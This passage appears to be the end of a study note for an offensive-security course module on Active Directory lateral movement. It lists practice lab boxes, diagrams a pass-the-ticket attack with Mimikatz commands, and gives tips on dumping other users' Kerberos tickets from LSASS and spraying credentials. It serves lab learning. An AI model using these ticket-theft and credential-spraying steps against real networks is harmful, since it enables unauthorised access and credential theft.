- [#PassTheTicket](https://ippsec.rocks/?#PassTheTicket)
- [#WMI](https://ippsec.rocks/?#WMI)
- [#ShadowCopy](https://ippsec.rocks/?#ShadowCopy)
- [#OverpassTheHash](https://ippsec.rocks/?#OverpassTheHash)

---

## Related Boxes

**Genuine technique boxes:**
- HTB Forest — full chain: AS-REP Roasting → BloodHound → DCSync → golden ticket + WinRM lateral movement. Covers Overpass-the-Hash, PtH, and golden ticket together
- HTB Sauna — AS-REP fsmith → lkys lateral movement via evil-winrm → DCSync → PtH to Administrator. Best match for PtH + DCSync from this module
- HTB Active — Kerberoasting Admin account → PsExec with cracked creds (clean PsExec demo, no hash)
- HTB Object — WinRM lateral movement, ACL abuse, golden ticket for persistence. Best match for golden ticket persistence

**Adjacent workflow boxes:**
- HTB Resolute — DnsAdmins abuse, NTDS dump chain
- HTB Mantis — Kerberoasting + SQL lateral movement; the credential-based lateral movement pattern
- PG Hutch — WMI lateral movement specifically (rare in public HTB boxes)
- PG Heist — Pass-the-Hash lateral movement

**Note on DCOM and Shadow Copy in public labs:** DCOM (MMC20.Application) lateral movement is rarely the primary intended path in public boxes — it's well-documented but not commonly tested. VSS shadow copy for NTDS extraction is more common in enterprise-difficulty machines. DCSync (covered in Module 23) is far more common in public labs than the manual vshadow approach.

---

## Mermaid: Pass-the-Ticket Flow

```mermaid
sequenceDiagram
    participant A as Attacker (jen session on CLIENT76)
    participant M as Mimikatz (elevated)
    participant L as LSASS (all sessions)
    participant K as Injected Kerberos Cache
    participant T as Target (web04 — \\web04\backup)

    A->>M: privilege::debug
    A->>M: sekurlsa::tickets /export
    M->>L: Read all Kerberos tickets from every logged-on session
    L->>A: dave@cifs-web04.kirbi (Group 0 — TGS) + dave@krbtgt-CORP.COM.kirbi (Group 2 — TGT)
    Note over A: Pick Group 0 (TGS) for cifs-web04 — no need for TGT if we already have the TGS
    A->>M: kerberos::ptt [0;...]-0-0-...-dave@cifs-web04.kirbi
    M->>K: Inject dave's cifs/web04 TGS into jen's current session
    A->>T: ls \\web04\backup (Kerberos — uses injected TGS, no password prompt)
    T->>A: Directory listing (dave's access, in jen's process)
```

---

## Capstone Lessons

> 🔍 Worth remembering generally: **BUILTIN\Administrators "Group used for deny only"** in `whoami /groups` means UAC is filtering the token. The user IS a local admin (their SID is in the Administrators group) but the RDP session strips elevated privileges. Two ways forward: (1) `Start-Process powershell -Verb RunAs` to get a UAC consent dialog and elevate, or (2) look elsewhere — if they're a local admin here, spray their creds to find where they have unfiltered admin access on other machines.

> 🔍 Worth remembering generally: **Cached tickets in LSASS from other logged-on users are yours to steal** the moment you have local admin and can run Mimikatz elevated. In the capstone, leon had no useful NTLM creds of his own on CLIENT76, but dave had logged in and left `cifs-web04` TGS tickets sitting in LSASS. `sekurlsa::tickets /export` dumps all of them regardless of whose session they came from.

---

#### Tags: #ActiveDirectory #LateralMovement #WMI #WinRM #PsExec #PassTheHash #OverpassTheHash #PassTheTicket #DCOM #GoldenTicket #ShadowCopy #NTDS #Mimikatz #Kerberos #NTLM #kirbi #krbtgt #Module24 #CIMSession #vshadow #secretsdump #impacket
